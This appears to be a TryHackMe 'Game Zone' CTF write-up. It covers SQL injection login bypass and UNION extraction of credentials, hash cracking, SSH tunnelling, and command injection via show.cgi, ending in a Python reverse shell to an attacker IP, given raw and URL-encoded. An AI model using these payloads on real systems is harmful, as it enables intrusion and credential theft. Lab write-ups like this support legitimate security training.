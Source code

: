 ```yaml
---
layout: default
title: "Game Zone"
tags: TryHackMe
description: "Use SQL injections, SSH tunneling, manually exploit vulnerable CMS to pwn this box."
---
```


[Game Zone](https://tryhackme.com/room/gamezone) is the fourth machine in the "Advanced Exploitation" part of  TryHackMe's "Offensive pentesting" path.

---

## Enumeration
Nmap scan output:
```
nmap -sC -sV -o gamezone <ip>
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-16 06:34 EDT
Nmap scan report for <ip>
Host is up (0.047s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
|_  256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Game Zone
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.06 seconds
```

Only two ports are available: `ssh` and `http`.

Open the <ip> in the browser and check the content on port `80`.

## Exploitation

I used `' or 1=1#` to bypass the login form.  
After that, you will be redirected to the `/portal.php` page with a single search bar.  
The official guide is recommending you use `SQLMap` here, but I'm doing this room to prepare myself for the upcoming `OSCP`.  
`SQLMap` is banned on the `OSCP`, plus you can use the `Metasploit` only once. That's why most of my writeups here are using mostly manuals ways to exploit the target.  
You can read about the manual way of `SQLi` [here](https://portswigger.net/web-security/sql-injection/union-attacks), but I'll shrink it down to the key points applicable for this box.  

We got some data back if we are trying the syntax of a basic `UNION` injection:

```
' UNION SELECT 1,2,3#
```
First, we need to know what's inside the DB. We can check `INFORMATION_SCHEMA` for that:  
```
' UNION SELECT 1,(select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.SCHEMATA),3#
```
As an output we got the list of schemas. `information_schema,db,mysql,performance_schema,sys`  
We are interested in `db` at the first place.  
Let's check what tables can we find inside of a `db`:  
```
' UNION SELECT 1,(select group_concat(TABLE_NAME) from INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'db'),3#
```
There are only two tables `post` and `users`. `Users` sounds more like juicy stuff, let's dig in a bit more and extract a column of it:  
```
' UNION SELECT 1,(select group_concat(COLUMN_NAME) from INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'users'),3#
```
The output: `username,pwd,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS`
Sweet, so there are `username` and `pwd`! Let's extract them:  

```
' UNION SELECT 1,(select username from db.users),3#

agent47
```
and
```
' UNION SELECT 1,(select pwd from db.users),3#

ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14
```
We got credentials! Well, it's still a hash and we have to crack it.  

[JohnTheReaper](https://github.com/openwall/john) can help with that.  

```
/usr/sbin/john -w=/usr/share/wordlists/rockyou.txt ./john.hash --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 AVX 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
***********    (agent47)
1g 0:00:00:00 DONE (2020-10-16 04:10) 2.325g/s 6782Kp/s 6782Kc/s 6782KC/s vimivi..veluca
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed
```

The password is redacted due to THM's rule about writeups.  

Now, when you have both username and password you can connect to the machine via `ssh`.  

## PrivEsc
Privilege escalation is very tricky here.  
First, you can check what is running on the machine. This part is nicely described in the official guide, so I will quickly go through it:  

```
agent47@gamezone:~$ ss -tulpn
```
We can see that a service running on port 10000 is blocked via a firewall rule from the outside, so we can't interact with it directly.  
However, we can use `ssh tunneling` to forward this service to some port in our `Kali Linux` machine:  
```
ssh -L 10000:localhost:10000 agent47@<ip>
```
Now if you will navigate to the `localhost:10000` on your `Kali Linux` you will find something new there - the login page for admin section of this site.  
Plus, you already have the credentials! *wink*  

From here, we can find out the name and the version of the CMS.  
The thing is, that if you will check available exploits for this CMS, you will actually find a few, but both of them are `Metasploit` modules.  
Again, my initial goal here is to avoid automated tools.  
Frankly speaking, this one took me a while to figure out.  
As you might guess, we will not 'use' the [exploit](https://www.exploit-db.com/exploits/21851) itself, but I will use the vulnerability described there.  

This is a snippet of the most interesting part from it:

```
res = send_request_cgi(
			{
				'uri'     => "/file/show.cgi/bin/#{rand_text_alphanumeric(5)}|#{command}|",
				'cookie'  => "sid=#{session}"
			}, 25)
```
Long story short, we can specify the put a random text there, add the `|` symbol, and put our payload there with another `|` at the end.  
If your goal is the flag, you can do something like  
```
http://localhost:10000/file/show.cgi/show.cgi/bin/AAAA|cat%20/root/root.txt|
```
And get your flag.  
But! Our goals here might be different, but I prefer to look at this as on a penetration test, and not a CTF even.  

> SHELL > flag

Let's spawn a shell, then!  

You have access to the system, so you can save you some time with commands like `which python`, `which perl`, etc. You can also check if the flavor of the `nc` supports `-e` flag or not.  

To get the shell I used a command from [PentestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for `python`

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
as you will throw it to the browser, don't forget to `URL-encode` all the things:

```
python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.11.19.53%22%2C1337%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27
```

Open up a listener for your port, you can use something fancy as `1337` if you want to and trigger your `root` shell:
```
localhost:10000/file/show.cgi/show.cgi/bin/AAAA|python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.11.19.53%22%2C1337%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27|
```

Voilà! There you go.

## Takeaway
- I hate `SQLi` too, but you have to learn it to not always blindly rely on your tools
- `Metasploit` is fine, it is well tested, it is rich, etc. But make sure that you can read and understand the code behind it.
- SHELLS > FLAGS! PERIOD!
